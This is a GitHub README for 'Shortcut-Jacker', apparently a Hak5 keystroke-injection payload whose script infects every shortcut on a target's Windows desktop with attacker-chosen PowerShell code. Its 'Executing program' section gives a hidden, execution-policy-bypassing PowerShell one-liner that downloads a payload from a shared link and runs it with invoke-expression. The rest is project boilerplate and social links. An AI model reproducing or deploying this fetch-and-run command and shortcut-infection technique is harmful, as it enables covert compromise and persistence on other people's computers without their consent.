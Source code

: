 <img src="https://github.com/I-Am-Jakoby/hak5-submissions/raw/main/Assets/Shortcut-Jacker/shortcut.jpg" width="900">

## Getting Started

Once the script is executed all of the shortcuts on your target's desktop will be infected with the powershell code you have stored in the `$code` variable in the .ps1 file

### Dependencies

* An internet connection
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>


## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>